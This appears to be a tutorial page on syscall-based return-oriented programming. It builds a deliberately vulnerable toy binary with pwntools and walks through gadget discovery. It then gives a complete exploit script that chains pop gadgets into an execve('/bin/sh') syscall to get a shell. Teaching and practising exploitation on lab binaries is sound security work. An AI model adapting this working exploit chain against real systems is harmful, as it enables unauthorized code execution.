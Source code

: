 # Exploitation with Syscalls

### The Source

{% file src="../../../.gitbook/assets/syscalls.zip" caption="Syscalls" %}

To make it super simple, I made it in assembly using pwntools:

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 300;
        syscall;
        ret;
        
        pop rax;
        ret;
        pop rdi;
        ret;
        pop rsi;
        ret;
        pop rdx;
        ret;
    '''
)
elf.save('vuln')
```

The binary contains all the gadgets you need! First it executes a `read` syscall, writes to the stack, then the `ret` occurs and you can gain control.

But what about the `/bin/sh`? I slightly cheesed this one and couldn't be bothered to add it to the assembly, so I just did:

```bash
echo -en "/bin/sh\x00" >> vuln
```

### Exploitation

As we mentioned before, we need the following layout in the registers:

```text
RAX:    0x3b
RDI:    pointer to /bin/sh
RSI:    0x0
RDX:    0x0
```

To get the address of the gadgets, I'll just do `objdump -d vuln`. The address of `/bin/sh` can be gotten using strings:

```text
$ strings -t x vuln | grep bin
   1250 /bin/sh
```

The **offset** from the base to the string is `0x1250` \(`-t x` tells `strings` to print the offset as hex\). Armed with all this information, we can set up the constants:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

binsh = elf.address + 0x1250

POP_RAX = 0x10000018
POP_RDI = 0x1000001a
POP_RSI = 0x1000001c
POP_RDX = 0x1000001e
SYSCALL = 0x10000015
```

Now we just need to populate the registers. I'll tell you the padding is `8` to save time:

```python
payload = flat(
    'A' * 8,
    POP_RAX,
    0x3b,
    POP_RDI,
    binsh,
    POP_RSI,
    0x0,
    POP_RDX,
    0X0,
    SYSCALL
)

p.sendline(payload)
p.interactive()
```

And wehey - we get a shell!

